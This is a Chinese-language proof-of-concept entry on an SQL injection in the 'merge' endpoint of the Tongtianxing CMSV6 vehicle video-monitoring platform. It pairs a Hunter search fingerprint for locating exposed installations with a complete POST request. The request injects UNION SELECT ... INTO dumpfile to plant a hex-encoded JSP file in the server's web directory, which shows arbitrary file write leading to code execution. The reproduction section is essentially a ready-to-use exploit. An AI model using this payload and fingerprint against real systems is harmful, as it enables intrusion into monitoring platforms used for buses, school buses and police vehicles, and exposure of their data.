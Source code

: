 # 通天星CMSV6车载视频监控平台 merge存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台merge存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/Afrkn5c6A6CUIImS/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-135980.png)

# 四、漏洞复现
```plain
POST /point_manage/merge HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 

id=1&name=9' UNION SELECT%0aNULL, 0x3c25206f75742e7072696e74282248656c6c6f20576f726c642122293b206e6577206a6176612e696f2e46696c65286170706c69636174696f6e2e6765745265616c5061746828726571756573742e676574536572766c657450617468282929292e64656c65746528293b20253e,NULL,NULL,NULL,NULL,NULL,NULL
INTO dumpfile '../../tomcat/webapps/gpsweb/testqwe.jsp' FROM user_session a
WHERE '9 '='9 &type=3&map_id=4&install_place=5&check_item=6&create_time=7&update_time=8
```

![1719308744478-3dcb8622-37c6-4df6-b680-6efbdd362858.png](./img/Afrkn5c6A6CUIImS/1719308744478-3dcb8622-37c6-4df6-b680-6efbdd362858-321423.png)

```plain
/testqwe.jsp
```

![1719308766874-83e8ee62-5756-4956-a24c-8785c401dcba.png](./img/Afrkn5c6A6CUIImS/1719308766874-83e8ee62-5756-4956-a24c-8785c401dcba-983012.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lbwmh459c1s3w59c>